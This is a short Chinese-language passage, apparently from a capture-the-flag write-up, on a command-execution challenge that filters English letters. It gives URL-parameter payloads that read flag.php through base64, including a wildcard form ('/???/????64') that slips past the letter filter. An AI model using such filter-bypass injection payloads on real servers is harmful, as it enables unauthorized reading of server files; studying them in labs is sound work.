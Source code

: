 ![image-20240120173657391](照片/image-20240120173657391.png)

过滤掉了英文字母

##### 方法一：使用base64对文件进行读取

```url
?c=/bin/base64 flag.php
?c=/???/????64 ????????

```

![image-20240120173910348](照片/image-20240120173910348.png)
